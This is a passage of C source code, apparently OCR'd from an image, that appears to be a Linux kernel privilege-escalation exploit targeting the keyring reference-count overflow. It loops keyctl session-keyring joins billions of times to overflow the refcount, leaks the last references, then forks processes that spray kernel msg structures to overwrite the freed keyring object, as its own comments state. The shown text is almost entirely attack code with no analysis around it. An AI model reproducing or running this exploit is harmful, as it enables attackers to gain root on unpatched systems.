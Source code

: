 ```c++
		return -1;
    }
	
	if (keyctl(KEYCTL_SETPERM, serial, KEY_POS_ALL | KEY_USR_ALL | KEY_GRP_ALL | KEY_OTH_ALL) < 0) {
		perror("keyctl");
		return -1;
	}

	puts("Increfing...");
	
    for (i = 1; i < 0xfffffffd; i++) {
        if (i == (0xffffffff - l)) {
            l = l/2;
            sleep(5);
        }
        if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) < 0) {
            perror("keyctl");
            return -1;
        }
    }
	
    sleep(20);
	
    /* here we are going to leak the last references to overflow */
    for (i=0; i<3; ++i) {
        if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) < 0) {
            perror("keyctl");
            return -1;
        }
    }
	
    puts("finished increfing");
    puts("forking...");
	
    /* allocate msg struct in the kernel rewriting the freed keyring object */
    for (i = 0; i < 64;i++) {
        pid = fork();
		
        if (pid == -1) {
            perror("fork");
            return -1;
        }

        if (pid == 0) {
            sleep(2);
			
            if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
                perror("msgget");
                exit(1);
            }
			
            for (i = 0; i < 64; i++) {
                if (msgsnd(msqid, &msg, sizeof(msg.mtext), 0) == -1) {
                    perror("msgsnd");
                    exit(1);
                }
            }
			
            sleep(-1);
            exit(1);
        }
    }
```